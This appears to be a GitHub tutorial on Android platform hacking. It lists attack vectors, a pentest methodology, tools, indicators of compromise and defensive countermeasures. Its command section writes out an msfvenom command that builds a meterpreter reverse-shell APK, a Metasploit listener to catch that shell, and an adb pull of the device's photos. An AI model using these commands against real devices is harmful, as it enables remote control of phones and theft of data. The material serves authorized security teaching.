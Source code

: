 # Android Platform Hacking

## 📌 Introduction
Android Platform Hacking focuses on identifying, exploiting, and mitigating security weaknesses in Android devices, applications, and services.  
Android’s open-source nature, global market share, and diverse ecosystem make it a frequent target for attackers.  

The main goals are:
- Understand Android architecture and security model.
- Discover vulnerabilities in Android apps and OS.
- Exploit misconfigurations, weak permissions, or outdated software.
- Extract sensitive data.
- Perform post-exploitation tasks for persistence and further attacks.

---

## 🎯 Objectives
- Learn Android architecture and security features.
- Perform static and dynamic application analysis.
- Identify insecure coding practices and permissions.
- Exploit OS-level and application-level flaws.
- Maintain persistence after exploitation.
- Document vulnerabilities and remediation steps.

---

## 🔍 Common Attack Vectors
- **Application Vulnerabilities** – Insecure data storage, improper authentication, hardcoded secrets, weak encryption.
- **OS-Level Exploits** – Outdated Android versions, privilege escalation bugs.
- **Network Attacks** – Capturing unencrypted traffic on public Wi-Fi.
- **Physical Access Attacks** – Unlocked bootloaders, bypassing lock screens.
- **Malware Deployment** – Installing malicious APKs to steal data or control devices.

---

## 🛠️ Methodology
1. **Information Gathering**
   - Identify device model, OS version, and installed apps.
2. **Application Analysis**
   - **Static Analysis** – Decompile APKs, review code, analyze permissions.
   - **Dynamic Analysis** – Monitor runtime behavior and API calls.
3. **Vulnerability Scanning**
   - Use tools to detect insecure configurations, outdated libraries, and weak permissions.
4. **Exploitation**
   - Deploy exploits or malicious APK payloads.
5. **Post-Exploitation**
   - Extract credentials, read files, capture screenshots, access sensors.
6. **Reporting**
   - Provide remediation guidelines with proof-of-concepts.

---

## ⚙️ Common Tools
- **ADB (Android Debug Bridge)** – Device connection, shell access, file transfer.
- **Drozer** – Android security testing framework.
- **MobSF** – Automated mobile security framework for static/dynamic analysis.
- **APKTool** – Decompile/recompile APKs.
- **JD-GUI** – View Java source from compiled APKs.
- **Frida** – Dynamic instrumentation toolkit.
- **Metasploit Framework** – Deploy and manage Android payloads.
- **Wireshark** – Capture and analyze network traffic.

---

## 📜 Useful Commands
- **List Connected Devices**

      adb devices
  
- **Connect to Device over Network**

      adb connect <IP>:5555

 - **Access Device Shell**

       adb shell
       
 - **Install APK**

       adb install <app.apk>

 - **Pull Files from Device**

       adb pull /sdcard/DCIM/ /local/path/

 - **Generate Android Payload with Metasploit**

       msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 R > payload.apk

 - **Start Listener in Metasploit**

       msfconsole
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
       set LHOST <IP>
       set LPORT 4444
       exploit

---

## 📊 Indicators of Compromise (IoCs)
- Unknown applications installed.
- Unusual data usage or battery drain.
- Unexpected network connections.
- System settings changed without user action.

---

## 🛡️ Defensive Countermeasures
- Keep OS and apps updated.
- Disable “Install from Unknown Sources”.
- Use app sandboxing and permissions control.
- Deploy MDM (Mobile Device Management) solutions.
- Avoid public Wi-Fi without a VPN.
- Encrypt device storage.

---

## 📄 Reporting
When documenting Android hacking findings:
- Include device details (model, OS version).
- List vulnerabilities found with severity ratings.
- Provide PoCs (screenshots, logs).
- Recommend security patches and configurations.

---

## ⚠️ Disclaimer
This content is for **educational and authorized security testing only**.  
Hacking Android devices without permission is **illegal** and can lead to severe consequences. Always test in authorized environments.
